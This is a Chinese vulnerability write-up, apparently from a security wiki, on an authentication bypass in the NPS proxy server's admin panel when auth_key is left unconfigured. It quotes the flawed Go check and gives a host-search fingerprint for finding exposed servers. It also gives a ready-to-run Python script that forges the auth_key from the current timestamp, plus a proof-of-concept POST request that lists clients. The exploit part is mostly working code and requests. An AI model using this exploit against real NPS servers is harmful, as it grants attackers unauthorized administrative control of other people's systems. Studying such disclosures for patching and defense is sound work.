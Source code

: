 # NPS auth_key 未授权访问漏洞

## 漏洞描述

NPS auth_key 存在未授权访问漏洞，当 nps.conf 中的 auth_key 未配置时攻击者通过生成特定的请求包可以获取服务器后台权限

## 漏洞影响

<a-checkbox checked>NPS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="serializeArray()" && body="/login/verify"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1659837763038-87e809fa-89b7-43e1-a37f-29d06fbcc4c1.png)

在 web/controllers/base.go 文件中

![img](/assets/PeiQi-Wiki/img/1659837874036-755e631e-af75-461b-9279-153c730f4a61.png)

```php
md5Key := s.getEscapeString("auth_key")
timestamp := s.GetIntNoErr("timestamp")
configKey := beego.AppConfig.String("auth_key")
timeNowUnix := time.Now().Unix()
if !(md5Key != "" && (math.Abs(float64(timeNowUnix-int64(timestamp))) <= 20) && (crypt.Md5(configKey+strconv.Itoa(timestamp)) == md5Key)) {
	if s.GetSession("auth") != true {
		s.Redirect(beego.AppConfig.String("web_base_url")+"/login/index", 302)
	}
} else {
	s.SetSession("isAdmin", true)
	s.Data["isAdmin"] = true
}
```

这里需要的参数为 配置文件 nps.conf 中的 auth_key 与 timestamp 的md5 形式进行认证，但在默认的配置文件中，auth_key 默认被注释，所以只需要可以获取到的参数 timestamp 就可以登录目标

![img](/assets/PeiQi-Wiki/img/1659838387320-fecc77bf-a16d-4843-a29c-b0a1fa275349.png)

```php
import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode("utf8"))
auth_key = m.hexdigest()

print("auth_key=%s&timestamp=%s" % (auth_key,int(now)))
```

验证POC

```php
POST /client/list
  
search=&order=asc&offset=0&limit=10&auth_key=8c98b1bdedbc569c4e61eeaeb11ce772&timestamp=1659838908
```

![img](/assets/PeiQi-Wiki/img/1659838957498-cc20a0c6-5c59-41a3-88dc-6d769a9bb8e4.png)